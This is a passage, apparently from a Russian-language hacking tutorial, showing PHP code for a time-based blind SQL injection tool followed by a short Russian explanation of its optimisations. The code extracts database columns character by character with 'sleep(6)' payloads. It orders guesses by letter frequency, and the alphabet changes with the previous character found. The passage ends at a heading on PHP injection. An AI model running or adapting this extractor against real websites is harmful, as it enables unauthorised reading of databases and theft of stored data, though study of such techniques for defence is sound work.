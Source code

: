 ```javascript
str_split("oeriafutlysdngmwcphjkbzvqx_1234567890");} 
        case "d": { $b_arr = 
str_split("eioasruydlgnvmwfhjtcbkpqzx_1234567890");} 
        case "s": { $b_arr = 
str_split("tehiosaupclmkwynfbqdgrvjzx_1234567890");} 
        case "a": { $b_arr = 
str_split("ntrsldicymvgbpkuwfehzaxjoq_1234567890");} 
        case "z": { $b_arr = 
str_split("eiaozulywhmtvbrsgkcnpdjfqx_1234567890");} 
        case "x": { $b_arr = 
str_split("ptcieaxhvouqlyfwbmsdgnzrkj_1234567890");} 
        case "c": { $b_arr = 
str_split("oheatikrlucysqdfnzpmgxbwvj_1234567890");} 
        case "v": { $b_arr = 
str_split("eiaoyrunlsvdptjgkhcmbfwzxq_1234567890");} 
        case "b": { $b_arr = 
str_split("euloyaristbjmdvnhwckgpfzxq_1234567890");} 
        } 
    } 
    print "[+] Brute $i symbol...\n"; 
    for ($j=0;$j<count($b_arr);$j++) 
     { 
      $brute = ord($b_arr[$j]); 
      $q = 
"/**/and/**/if((ord(lower(mid((select/**/$column/**/from/**/$table/**/li
 mit/**/$lim,1),$i,1))))=$brute,sleep(6),0)--"; 
      if (http_connect($q)) 
      { 
        $ret_str=$ret_str.$b_arr[$j]; 
        print $b_arr[$j]."\n"; 
        $last_ltr=$b_arr[$j]; 
        break; 
      } 
      print "."; 
    } 
    if ($j == count($b_arr)) break; 
  } 
  return $ret_str; 
}
```

Что изменилось?
1. Первая новация — это строка символов для брутфорса. Символы в ней расположены в порядке убывания частоты их встречаемости.
1. Вторая — оператор ветвления `switch`, который управляется переменной `last_ltr`. На первой итерации внешнего цикла этот оператор не используется. Он вступает в действие только после нахождения первого символа. Затем переменная `last_ltr` инициализируется этим символом, и, благодаря оператору `switch`, строка символов для брутфорса изменяется на соответствующую.

## PHP injection
